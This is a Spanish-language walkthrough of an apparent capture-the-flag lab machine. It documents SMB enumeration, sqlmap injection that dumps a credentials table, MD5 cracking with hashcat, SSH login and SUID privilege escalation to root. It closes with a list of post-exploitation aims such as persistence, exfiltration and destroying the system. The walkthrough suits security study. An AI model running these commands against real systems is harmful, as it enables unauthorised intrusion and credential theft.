 # 🛡️ SMB - MD5

## 1. 📡 Comprobación de Conectividad

```bash
ping 172.17.0.2
```

---

## 2. 🔍 Escaneo de Puertos Abiertos

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

✅ Puertos abiertos detectados:

```
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack ttl 64
80/tcp  open  http         syn-ack ttl 64
139/tcp open  netbios-ssn  syn-ack ttl 64
445/tcp open  microsoft-ds syn-ack ttl 64
```

---

## 3. 🔎 Detección de Versiones de Servicios

```bash
nmap -p22,80 -sCV 172.17.0.2
```

| Puerto | Servicio                        |
|--------|----------------------------------|
| 22/tcp | OpenSSH 8.9p1 (Ubuntu)           |
| 80/tcp | Apache httpd 2.4.52 (Ubuntu)     |
| 139/445 | Samba smbd 4.x                  |

---

## 4. 📂 Enumeración de Servicios SMB

### enum4linux

```bash
enum4linux -a 172.17.0.2
```

✅ Usuario descubierto: `dylan`  
✅ Recursos compartidos visibles:

```
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
shared          Disk      
IPC$            IPC       IPC Service (Samba, Ubuntu)
```

**Usuarios locales:**

- dylan  
- augustus  
- bob

---

### smbclient

```bash
smbclient -L //172.17.0.2 -N
```

Mismos recursos detectados. El protocolo SMB1 no está habilitado.

---

### smbmap

```bash
smbmap -H 172.17.0.2
```

Todos los recursos aparecen como `NO ACCESS`.

---

### rpcclient

```bash
rpcclient -U "" -N 172.17.0.2
```

Enumeración de usuarios:

```
user:[dylan] rid:[0x3e9]
```

Consulta de usuario `501` (`nobody`) no proporciona información útil.

---

### crackmapexec

```bash
crackmapexec smb 172.17.0.2 --users users.txt --continue-on-success
```

✅ Usuario encontrado: `dylan`

---

## 5. 💉 Inyección SQL

### Enumeración de Bases de Datos

```bash
sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch
```

Bases de datos disponibles:

- information_schema  
- mysql  
- performance_schema  
- **register**  
- sys

### Extracción de Tablas

```bash
sqlmap -u http://172.17.0.2/index.php --forms -D register --tables --batch
```

✅ Tabla: `users`

### Dump de Credenciales

```bash
sqlmap -u http://172.17.0.2/index.php --forms -D register -T users --dump --batch
```

| Username | Password Hash          |
|----------|------------------------|
| dylan    | KJSDFG789FGSDF78       |

---

## 6. 🔓 Acceso a SMB

Tras obtener acceso a SMB usando el usuario `dylan`, se encuentra un archivo llamado `augustus.txt` con el siguiente hash:

```
061fba5bdfc076bb7362616668de87c8
```

---

## 7. 🧠 Cracking de Hash

```bash
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

Resultado:

```
061fba5bdfc076bb7362616668de87c8:lovely
```

✅ Contraseña del usuario `augustus`: `lovely`

---

## 8. 🧑‍💻 Acceso SSH

```bash
ssh augustus@172.17.0.2
```

Con la contraseña `lovely`, se obtiene acceso exitoso.

---

## 9. 🚀 Escalada de Privilegios

```bash
find / -perm -4000 -type f 2>/dev/null
```

✅ Se detecta `/usr/bin/env` como posible vector de escalada.

📌 Tras explotación, se obtiene acceso como **root**.

---

## 🔧 Post-Explotación

Con privilegios de root se pueden realizar diversas acciones:

- ✅ Mantener el acceso (persistencia)
- 👤 Crear usuarios ocultos
- 🔐 Añadir claves públicas SSH
- 📦 Exfiltrar información sensible
- 🌐 Explorar la red interna
- 🔀 Hacer pivoting a otras máquinas
- 🧹 Borrar huellas
- 💣 Destruir el sistema (⚠️ uso malicioso)
